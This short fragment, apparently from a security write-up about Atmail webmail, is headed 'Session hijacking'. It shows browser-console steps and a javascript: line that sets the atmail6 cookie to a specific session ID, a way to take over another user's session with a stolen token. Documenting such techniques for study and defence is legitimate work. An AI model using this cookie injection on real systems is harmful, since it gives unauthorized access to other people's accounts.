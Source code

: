 
### Session hijacking
```
Inspeccionador -> Console
2
​javascript:void(document.cookie="atmail6=1fp0fjq4aa8sm5if934b62ptv6"); 
```

